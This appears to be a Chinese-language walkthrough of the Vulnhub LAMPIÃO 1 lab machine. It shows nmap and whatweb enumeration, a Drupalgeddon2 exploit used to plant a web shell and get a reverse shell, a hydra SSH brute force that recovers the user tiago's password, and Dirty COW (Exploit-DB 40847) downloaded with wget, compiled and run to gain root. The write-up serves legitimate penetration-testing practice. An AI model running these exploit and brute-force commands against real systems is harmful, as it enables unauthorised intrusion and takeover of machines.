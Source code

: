 ```yaml
---
layer: article
title: Vulnhub	249 LAMPIÃO 1
tags: pentest vulnhub writeup
---
```


考点：drupal、dirtyc0w、hydra

靶机链接：<https://www.vulnhub.com/entry/lampiao-1,249/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| LAMPIÃO    | 10.0.2.9  |



## 初步打点

### 端口扫描



```bash
$ sudo arp-scan  -l           
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.9        08:00:27:58:66:90       PCS Systemtechnik GmbH
                                                                                                
┌──(kali㉿kali)-[~]
└─$ export tip=10.0.2.9         
                                                                                                 
┌──(kali㉿kali)-[~]
└─$ sudo nmap -v -A -p- $tip    
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=8/15%Time=62F9E8D5%P=x86_64-pc-linux-gnu%r(NULL
SF:,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(\x
SF:20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x20
SF:__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n
SF:\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_`\
SF:x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20_\
SF:|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__\x
SF:20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__\|
SF:\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20\x
SF:20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\n\
SF:|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x20_
SF:_\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x20\
SF:x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x20
SF:_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20\x
SF:20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\x2
SF:0\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20\|
SF:\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20\|
SF:_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\__
SF:,_\|_\|\x20\|_\|");
MAC Address: 08:00:27:58:66:90 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

看来要在80和1898端口突破

### WEB测试

80扫一下就挂了

1898端口是drupal

探测一下drupa版本

```bash
$ whatweb  http://10.0.2.9:1898
http://10.0.2.9:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

```

大概率是Drupal 7

### 漏洞发现

试试[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

运行报错`<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)` google查询安装`highline`

```bash
$ sudo gem install highline
```

使用drupalgeddon2.rb 写入shell

![1](https://static.iihack.com/vulnhub/249/1.PNG)

执行`id`

![2](https://static.iihack.com/vulnhub/249/2.PNG)

## 获得权限

### 靶机测试

#### 思路一 Drupalgeddon2

使用刚才获得的http://10.0.2.9:1898/shell.php下载php-reverse-shell.php 访问，获得反弹shell

![3](https://static.iihack.com/vulnhub/249/3.PNG)



#### 思路二 暴力破解

查看两个内容页面，对应用户名是 `tiago`和`Eder`

尝试爆破

先获取个字典

```bash
$ cewl -w 1.txt http://10.0.2.9:1898/
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                
```

```bash
$ cat user
tiago
eder
```

使用hydra爆破ssh
```bash
$ hydra -L user -P 1.txt 10.0.2.9 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[22][ssh] host: 10.0.2.9   login: tiago   password: Virgulino
```

意外破解获得tiago的密码

![4](https://static.iihack.com/vulnhub/249/4.PNG)

ssh登陆成功

![5](https://static.iihack.com/vulnhub/249/5.PNG)

`





## 提权

linpeas.sh跑了遍，打算使用脏牛提权，运行成功后管理员密码被修改为`dirtyCowFun`

```bash
$ wget https://www.exploit-db.com/download/40847 -O 40847.c
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.c -lutil
$ ./dcow
```

![6](https://static.iihack.com/vulnhub/249/6.PNG)

